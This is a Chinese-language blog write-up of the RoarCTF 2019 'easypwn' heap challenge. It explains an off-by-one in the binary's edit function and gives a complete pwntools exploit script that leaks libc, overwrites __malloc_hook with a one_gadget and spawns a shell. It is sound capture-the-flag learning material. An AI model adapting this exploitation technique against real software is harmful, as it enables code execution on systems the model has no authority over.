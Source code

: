 ```yaml
---
title: 19RoarCTF记录
author: nepire
avatar: /images/title.ico
authorLink: 'https://nepire.github.io/'
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2019-11-05 12:31:01
tags:
keywords:
description:
photos: /images/cover/8.png
---
```

比赛时正好遇上作业一大堆，粗略的看了一题就去赶作业了，赛后还是来重新看一遍题目




# easypwn
```
    Arch:     amd64-64-little                                                                                          
    RELRO:    Full RELRO                                                                                               
    Stack:    Canary found                                                                                             
    NX:       NX enabled                                                                                               
    PIE:      PIE enabled
```
防护全开
反编译看一下

![图片](jj7Vi0RS28Mu5Vdp.png)

标准菜单框架

然后又是愉快的逆结构体时间

这里就省略分析过程

```
struct note
{
  int inuse;
  int size;
  char *content;
}
```
![图片](3lJTRVXx9hkjDAhf.png)

![图片](ohsQTbMsvZEwjrbO.png)

我们可以看到create的功能只初始化了新chunk，并未往content写东西

然后简单审计过后就能发现有个很僵硬的漏洞

![图片](mnrLbOp5t5EMBjwY.png)

在往chunk_content内写东西时的size是cmp_min的返回值，而问题就出在cmp_min里

![图片](BDqW1RPx5HIeSvgl.png)这里僵硬在于这个额外多出的if，本来猜测可能是想输入的size是带'\n'的但发现这也不对就hen尬

总结下现在得到的可利用点

1.最大可创建size=0x100的chunk

2.edit存在offbyone漏洞

3.菜单选择用的scanf

那么先尝试利用off by one泄露出libc

![图片](3oLNBqRr7Scnt8ZZ.png)


这里有个细节是它没有用malloc创建堆而是calloc，但没必要去纠结，因为触发malloc_hook的不是这里的malloc

![图片](gzXbIS07Uy4a3463.png)


接着就是很直接的，uaf改fd到malloc_hook后把malloc_hook改成one_gadget再用doublefree报错里的malloc触发getshell

```
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./easy_pwn')
elf = ELF('./easy_pwn')
libc = elf.libc
def choice(idx):
	n.recvuntil('choice: ')
	n.sendline(str(idx))


def new(size):
	choice(1)
	n.recvuntil('size: ')
	n.sendline(str(size))


def write(idx,size,content):
	choice(2)
	n.recvuntil('index: ')
	n.sendline(str(idx))
	n.recvuntil('size: ')
	n.sendline(str(size))
	n.recvuntil('content:')
	n.send(content)


def free(idx):
	choice(3)
	n.recvuntil('index: ')
	n.sendline(str(idx))


def show(idx):
	choice(4)
	n.recvuntil('index: ')
	n.sendline(str(idx))


new(0x18)#0
new(0x18)#1
new(0x68)#2
new(0x10)#3
write(0,0x18+10,'a'*0x18+'\x91')
#gdb.attach(n)
free(1)
new(0x18)#1|2
show(2)
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-0x3c4b78
print hex(libcbase)
malloc_hook = libcbase + libc.sym['__malloc_hook']
one_gadget = libcbase +0xf02a4 
#gdb.attach(n)
free(1)
new(0x68)
free(2)
write(1,0x8,p64(malloc_hook-0x18+5))
new(0x68)
new(0x68)
write(4,0x10+3,'aaa'+p64(one_gadget)*2)
free(2)
free(1)
n.interactive()
```
continue……
